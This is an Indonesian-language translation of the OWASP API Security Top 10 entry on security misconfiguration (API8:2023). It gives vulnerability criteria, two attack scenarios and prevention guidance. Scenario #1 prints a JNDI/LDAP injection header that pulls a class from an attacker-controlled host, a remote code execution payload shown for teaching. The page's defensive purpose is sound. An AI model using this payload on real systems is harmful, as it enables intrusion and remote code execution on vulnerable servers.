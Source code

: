 # API8:2023 Miskonfigurasi Keamanan

| Agen Ancaman/Vektor Serangan | Kelemahan Keamanan | Dampak |
| - | - | - |
| Khusus API : Kemungkinan Dieksploitasi **Mudah** | Meluas **Disebarluaskan** : Kemungkinan Dideteksi **Mudah** | Teknis **Parah** : Khusus Bisnis |
| Penyerang sering mencoba menemukan kelemahan yang belum diperbaiki, titik akhir umum, layanan yang berjalan dengan konfigurasi default yang tidak aman, atau file dan direktori yang tidak terlindungi untuk mendapatkan akses tidak sah atau pengetahuan tentang sistem. Sebagian besar informasi ini adalah pengetahuan publik dan eksploitasi mungkin tersedia. | Konfigurasi keamanan dapat terjadi di semua tingkat tumpukan API, mulai dari tingkat jaringan hingga tingkat aplikasi. Alat otomatis tersedia untuk mendeteksi dan mengeksploitasi konfigurasi yang salah seperti layanan yang tidak perlu atau opsi warisan. | Konfigurasi keamanan tidak hanya mengekspos data pengguna yang sensitif, tetapi juga detail sistem yang dapat menyebabkan kompromi penuh server. |

## Apakah API Rentan?

API dapat rentan jika:

* Penguncian keamanan yang sesuai hilang di seluruh bagian tumpukan API,
  atau izin yang dikonfigurasi dengan tidak benar pada layanan cloud
* Patch keamanan terbaru hilang, atau sistem sudah kadaluwarsa
* Fitur yang tidak diperlukan diaktifkan (misalnya, verba HTTP, fitur logging)
* Ada ketidaksesuaian dalam cara permintaan masuk diproses oleh server
  dalam rantai server HTTP
* Keamanan Lapisan Transportasi (TLS) hilang
* Direktif keamanan atau kendali cache tidak dikirimkan kepada klien
* Kebijakan Cross-Origin Resource Sharing (CORS) hilang atau diatur dengan tidak benar
* Pesan kesalahan mencakup jejak tumpukan, atau mengekspos informasi sensitif lainnya

## Contoh Skenario Serangan

### Skenario #1

Sebuah server API back-end menjaga catatan akses yang ditulis oleh utilitas logging sumber terbuka pihak ketiga yang populer dengan dukungan ekspansi tempat dan pencarian JNDI
(Java Naming and Directory Interface), keduanya diaktifkan secara default. Untuk
setiap permintaan, entri baru ditulis ke file log dengan pola berikut: `<metode> <versi_api>/<jalur> - <kode_status>`.

Pelaku jahat mengeluarkan permintaan API berikut, yang ditulis ke file log akses:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Karena konfigurasi default yang tidak aman dari utilitas logging dan kebijakan keluar jaringan yang longgar, untuk menulis entri yang sesuai
ke file log akses, sambil memperluas nilai dalam header permintaan `X-Api-Version`, utilitas logging akan menarik dan menjalankan objek `Malicious.class` dari server yang dikendalikan oleh pelaku jahat.

### Skenario #2

Sebuah situs jaringan sosial menawarkan fitur "Pesan Langsung" yang memungkinkan pengguna
mempertahankan percakapan pribadi. Untuk mengambil pesan baru untuk percakapan tertentu, situs web mengeluarkan permintaan API berikut (interaksi pengguna tidak diperlukan):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Karena tanggapan API tidak termasuk header tanggapan HTTP `Cache-Control`, percakapan pribadi akan disimpan dalam cache browser web, memungkinkan
pelaku jahat mengambilnya dari file cache browser dalam sistem file.

## Cara Mencegah

Siklus hidup API harus mencakup:

* Proses penguncian berulang yang mengarah pada penerapan lingkungan yang terkunci dengan baik
  atau jika izin dikonfigurasi dengan tidak benar pada layanan cloud
* Tugas untuk meninjau dan memperbarui konfigurasi di seluruh tumpukan API. Tinjauan harus mencakup: file orkestrasi, komponen API, dan layanan cloud
  (misalnya, izin bucket S3)
* Proses otomatis untuk terus-menerus menilai efektivitas konfigurasi dan pengaturan di semua lingkungan

Selain itu:

* Pastikan semua komunikasi API dari klien ke server API dan komponen hulu/hilir terjadi melalui saluran komunikasi yang terenkripsi
  (TLS), tanpa memandang apakah itu API internal atau publik.
* Jadilah spesifik tentang verba HTTP mana pun yang dapat diakses oleh setiap API: semua verba HTTP lainnya harus dinonaktifkan (misalnya, HEAD).
* API yang diharapkan diakses dari klien berbasis browser (misalnya, front-end WebApp) harus setidaknya:
  * mengimplementasikan kebijakan Cross-Origin Resource Sharing (CORS) yang benar
  * menyertakan Header Keamanan yang berlaku
* Batasi jenis konten/mode data masuk hanya pada yang memenuhi persyaratan bisnis/fungsional.
* Pastikan semua server dalam rantai server HTTP (misalnya, penyeimbang beban, proxy mundur
  dan maju, serta server backend) memproses permintaan masuk dengan cara yang seragam untuk menghindari masalah desinkronisasi.
* Jika memungkinkan, tentukan dan tegakkan semua skema muatan respons API, termasuk respons kesalahan, untuk mencegah pengecualian jejak dan informasi berharga lainnya dikirimkan kembali kepada pelaku serangan.

## Referensi

### OWASP

* [Proyek OWASP Secure Headers][1]
* [Pengujian Konfigurasi dan Manajemen Implementasi - Panduan Pengujian Keamanan Web Guide][2]
* [Pengujian Penanganan Kesalahan - Panduan Pengujian Keamanan Web][3]
* [Pengujian Cross Site Request Forgery - Panduan Pengujian Keamanan Web][4]

### Eksternal

* [CWE-2: Kelemahan Keamanan Lingkungan][5]
* [CWE-16: Konfigurasi][6]
* [CWE-209: Pembuatan Pesan Kesalahan yang Mengandung Informasi Sensitif][7]
* [CWE-319: Pengiriman Teks Terbuka Informasi Sensitif][8]
* [CWE-388: Penanganan Kesalahan][9]
* [CWE-444: Interpretasi Tidak Konsisten Permintaan HTTP ('HTTP Request/Response Smuggling')][10]
* [CWE-942: Kebijakan Lintas Domain yang Permissif dengan Domain yang Tidak Terpercaya][11]
* [Panduan Keamanan Umum Server][12], NIST
* [Let's Encrypt: Otoritas Sertifikat Gratis, Otomatis, dan Terbuka][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/